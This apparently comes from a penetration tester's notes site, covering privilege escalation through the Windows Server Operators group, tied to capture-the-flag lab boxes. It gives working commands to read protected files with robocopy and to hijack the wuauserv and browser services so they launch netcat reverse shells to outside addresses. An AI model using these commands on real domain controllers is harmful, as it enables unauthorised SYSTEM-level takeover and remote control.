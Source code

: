 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Server Operators

## Information

Server Operators exists only on DCs and are used for managing the DC as a whole, including service configurations and files. They can create and delete network shared resources, **start and stop services**, **back up and restore files**, and **change installed binaries** on the DCs. This group is considered a **service administrator** account because its members have physical access to DCs.

> Well-known SID/RID: `S-1-5-32-549`.

<table><thead><tr><th width="221">Privileges</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Accessing Files

<pre class="language-powershell"><code class="lang-powershell"><strong># copy "restricted" data
</strong><strong>robocopy /b C:\users\administrator\desktop C:\programdata\temp
</strong></code></pre>

For an example of the above method check [here](../../../../boxes/boxes/insane/multimaster.md#sebackupprivilege).

### ImagePath

Member of this group has the ability to manage services. By modifying the `ImagePath` of a service we can gain `SYSTEM` level access. An example of this process can be found [here](../../../../boxes/boxes/insane/multimaster.md#changing-paths).

{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
# confirm change
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
# start service
Start-Service wuauserv
```
{% endcode %}

For an example of the above method check [here](../../../../boxes/boxes/insane/multimaster.md#server-operators).

### binPath

Similar to [`ImagePath`](server-operators.md#imagepath), we can change the `binPath`.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># change binPath
</strong><strong>sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
</strong><strong># stop the service
</strong>sc.exe stop browser
# start the service
sc.exe start browser
</code></pre>

## Resources

{% tabs %}
{% tab title="First Tab" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators" %}
{% endtab %}

{% tab title="Exploitation" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}
{% endtab %}
{% endtabs %}

## Boxes

{% tabs %}
{% tab title="Sizzle" %}
{% embed url="https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle" %}
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}
